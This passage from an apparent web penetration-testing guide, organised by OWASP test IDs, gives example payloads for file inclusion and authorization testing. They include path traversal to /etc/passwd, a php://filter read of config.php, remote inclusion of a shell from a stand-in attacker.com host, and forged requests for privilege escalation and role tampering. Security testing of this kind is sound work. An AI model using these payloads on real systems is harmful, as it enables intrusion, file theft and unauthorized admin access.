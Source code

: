 #### File Inclusion Testing
```php
# Local File Inclusion (LFI)
http://target.com/index.php?page=../../../etc/passwd
http://target.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php

# Remote File Inclusion (RFI) 
http://target.com/index.php?page=http://attacker.com/shell.php
http://target.com/index.php?page=ftp://attacker.com/shell.php
```

### 5.2 Test for Bypassing Authorization Schema (OTG-AUTHZ-002)

#### Horizontal Privilege Escalation
```http
# Access other user's data
GET /profile?id=123 HTTP/1.1
Cookie: sessionid=user456_session

GET /api/users/123/orders HTTP/1.1
Authorization: Bearer user456_token
```

#### Vertical Privilege Escalation
```http
# Access admin functionality with user privileges
GET /admin/users HTTP/1.1
Cookie: sessionid=regular_user_session

POST /admin/users/delete HTTP/1.1
Cookie: sessionid=regular_user_session
Content-Type: application/json
{"userId": 789}
```

### 5.3 Test for Privilege Escalation (OTG-AUTHZ-003)

#### Parameter Manipulation
```http
# Role parameter manipulation
POST /updateProfile HTTP/1.1
Content-Type: application/json
Cookie: sessionid=user_session

{
    "username": "user123",
    "email": "user@test.com",
    "role": "admin"
}
```
